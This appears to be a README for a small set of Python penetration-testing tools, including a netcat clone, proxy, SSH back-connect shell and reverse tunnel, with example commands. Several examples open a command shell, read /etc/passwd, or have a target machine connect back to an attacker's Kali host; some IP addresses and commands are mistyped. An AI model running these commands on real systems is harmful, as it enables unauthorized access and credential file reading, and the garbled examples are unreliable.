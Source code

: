 # Networking Tools

# Python networking tools to help out when dealing with an environment where there are no tools installed.
# Here you will find several tools written in Python to help your asessment.

Tools:
- tcp_client.py
#Ecample Usage
./tcp_client.py 
  
- udp_client.py
#Example Usage
./udp_client.py

- netcat.py
#Example Usage
./netcat.py --help
python netcat.py -t 192.168.1.12 -p 4444 -l -c 
python netcat.py -t 192.16.1.12 -p 4444 -l -e="cat /etc/passwd"

- proxy.py
#Example USage
sudo python proxy.py 1902.168.1.12 21 ftp.sun.ca.za True
#Open a new Terminal an enter:
ftp 127.16.1.12:21

- ssh_cmd.py
#Example Usage
#First make sure to install 'paramiko'
pip install paramiko
pytho ssh_cmd.py

- ssh_rcmd.py
#Example Usage
#This script is modified to run commands on a remote Windows machine
#You'll need to ssh_server.py on your host
- ssh_server.py
#Example usage:
#Run the script on your host
python ssh_server.py
#Now run on the WIndows target host
python ssh_rcmd.py
#This will connact back to the server running on your Kali machine

- rforward.py
#Example usage
#SSh Tunneling Tool
#From the Windows machine launch the script to be the middle man to tunnel traffic from a web serveer to your Kali machine
python rforward.py 192.168.1.12 -p 8081 192.16.1.13:3000 --user=hacker
